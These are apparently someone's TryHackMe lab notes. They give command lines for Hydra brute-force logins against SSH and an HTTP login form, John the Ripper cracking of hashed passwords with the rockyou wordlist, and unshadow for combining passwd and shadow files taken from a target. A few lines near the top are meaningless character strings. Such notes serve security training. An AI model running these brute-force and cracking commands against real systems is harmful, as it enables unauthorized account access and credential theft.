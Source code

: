 ## Hydra
~ioSx67G5SRyXdQ

~rFYy$Sf#bk?3?FB$

```
~hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.221.163 ssh
```
- -t 	--uses 16 parallel connections
- -P	--path to wordlist
- uses ssh

```
sudo hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt 10.10.134.126 http-post-form "/login/login.php:username=R1ckRul3s&password=^PASS^&sub=Login:Invalid username or password."
```
- http-post-form    --uses post from the subdirectory
- username=R1ckRul3s&password=^PASS^&sub=Login      --found in the network tab under "send and edit"
- Invalid username or password.     -- Invalid creds state, found by entering the incorrect credentials 

# johntheRipper

wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py

>hash identifier

```
john hash.txt
```
uses johntheripper to crack hashed passwords

```
john --wordlist=[path to wordlist] [path to file]
```
--wordlist=~/Tryhackme/wordlists/rockyou.txt hash.txt

```
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash_to_crack.txt
```

>if you're dealing with a standard hash type, e.g. md5 as in the example above, you have to prefix it with `raw-` to tell john you're just dealing with a standard hash type, though this doesn't always apply. To check if you need to add the prefix or not, you can list all of John's formats using john `--list=formats` and either check manually, or grep for your hash type using something like `john --list=formats | grep -iF "md5"`

---

```
unshadow [path to passwd] [path to shadow]
```

>[path to passwd] - The file that contains the copy of the /etc/passwd file you've taken from the target machine
